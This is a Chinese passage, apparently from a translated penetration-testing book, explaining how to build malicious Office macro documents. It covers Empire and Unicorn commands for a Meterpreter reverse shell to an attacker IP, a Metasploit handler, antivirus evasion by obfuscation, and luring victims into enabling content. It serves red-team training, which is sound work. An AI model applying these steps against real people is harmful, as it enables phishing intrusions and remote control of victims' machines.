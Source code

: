 
### Microsoft Word/Excel 宏文件
虽然是很老旧，但向受害者发送恶意的 Microsoft Office 文件仍然是久经考验的一种社会工程学攻击方法。那为什么 Office 文件非常适合作为恶意 payload 的载体呢？这是因为 Office 文件的默认设置是支持 VBA 代码所以允许 VBA 代码的代码执行。尽管最近这种方法已经很容易被杀毒软件检测到，但在经过混淆处理之后，在很多情况下仍然可以生效。

在最基础的水平上，我们可以使用 Empire 或 Unicorn 来创建一个 VBA 宏：
- 使用 Empire:
    - 选择 Macro Stager
        - usestager windows/macro
    - 确保进行正确的配置
        - info
    - 创建宏
        - generate
- 如果你想为 Meterpreter 创建一个 payload ，我们可以使用像 Unicorn 这样的工具:
    - cd /opt/unicorn
    - ./unicorn.py windows/meterpreter/reverse_https [your_ip] 443 macro
    - 启动一个 Metasploit Handler
        - msfconsole -r ./unicorn.rc
        
一旦生成成功，你的 payload 将如下所示：

![](img/chapter_5/5-3.png)

如你所见，这是运行一个简单的 PowerShell base64 混淆脚本。这可以帮助解决绕过一些杀毒软件，但重要的是要确保在进行实时入侵操作之前对其进行测试。生成宏后，你可以快速创建一个 Excel 文档：
- 打开 Excel
- 转到视图选项卡(View Tab) - >宏 - >查看宏
- 添加一个宏名称，为 book1 配置宏，然后单击 “创建” 

![](img/chapter_5/5-4.png)

- 用生成的代码替换所有当前的宏代码
- 另存为 .xls（Word 97-2003）或 Excel Macro-Enabled 格式的文件

![](img/chapter_5/5-5.png)

现在，每当有人打开你的文档时，他们都会收到安全警告并看到一个启用内容的按钮。 如果你可以诱导受害者点击“启用内容”的按钮，那么你的 PowerShell 脚本将会被执行，这会弹给你一个 Empire Shell 。

![](img/chapter_5/5-6.png)

如前所述，宏文件方法是一种久经考验的旧方法，因此很多受害者已经对这种攻击有了一定的认识。利用 Office 文件的另一种思路是将我们的 payload 嵌入一个批处理文件(.bat)。但在较新版本的 Office 中，如果受害者双击 Word 文档中的 .bat 文件，对象则不会被执行。我们通常不得不试图诱导受害者使其将 .bat 文件移动到桌面并执行。

![](img/chapter_5/5-7.png)

我们可以用 [LuckyStrike](https://github.com/curi0usJack/luckystrike) 来以更自动化的方式完成此操作。通过使用 LuckyStrike，我们可以在工作表中使用 Payload 创建 Excel 文档，甚至可以在 Excel 文档中存储完整的可执行文件（exe），这些文件可以用 ReflectivePE 来触发从而在内存中运行。阅读更多关于 LuckyStrike 的内容：
- https://www.shellntel.com/blog/2016/9/13/luckystrike-a-database-backed-evil-macro-generator

我想提到的用于 Office 文件执行的最后一个工具是 [VBad](https://github.com/Pepitoh/VBad)。运行 VBad 时，必须在 Office 中启用宏，并在宏安全设置的下拉框中选择 “信任对 VBA 项目对象模型的访问” 选项。这会允许 VBad 运行 python 代码来更改并创建宏。

